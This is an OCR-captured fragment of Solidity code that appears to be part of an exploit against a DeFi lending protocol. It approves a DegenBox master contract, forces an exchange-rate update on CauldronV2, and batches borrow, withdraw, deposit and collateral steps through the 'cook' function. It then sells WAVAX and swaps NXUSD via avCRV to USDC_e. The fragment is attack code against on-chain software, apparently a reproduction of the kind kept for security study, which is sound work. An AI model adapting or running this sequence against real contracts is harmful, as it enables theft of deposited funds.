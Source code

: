 │         DegenBox.setMasterContractApproval(                                                                                                                                                                                                          │
│             address(this),                                                                                                                                                                                                                           │
│             masterContract,                                                                                                                                                                                                                          │
│             true,                                                                                                                                                                                                                                    │
│             0,                                                                                                                                                                                                                                       │
│             0,                                                                                                                                                                                                                                       │
│             0                                                                                                                                                                                                                                        │
│         );                                                                                                                                                                                                                                           │
│         // update rate                                                                                                                                                                                                                               │
│         CauldronV2.updateExchangeRate();                                                                                                                                                                                                             │
│         // cook function in CauldronV2                                                                                                                                                                                                               │
│         bytes[] memory datas = new bytes[](4);                                                                                                                                                                                                       │
│         datas[0] = abi.encode(borrowAmounts, address(this)); // type borrow                                                                                                                                                                          │
│         datas[1] = abi.encode(NXUSD, address(this), borrowAmounts,share); // type withdraw                                                                                                                                                           │
│         datas[2] = abi.encode(Pair, address(this), 45330977931305070, share); // type deposit                                                                                                                                                        │
│         datas[3] = abi.encode(-2, address(this), false); // Collateral enter market                                                                                                                                                                  │
│         CauldronV2.cook(actions, values, datas);                                                                                                                                                                                                     │
│                                                                                                                                                                                                                                                      │
│         // sell WAVAX`                                                                                                                                                                                                                               │
│         sellWAVAX();                                                                                                                                                                                                                                 │
│         // NXUSD -> avCRV -> USDC_e                                                                                                                                                                                                                  │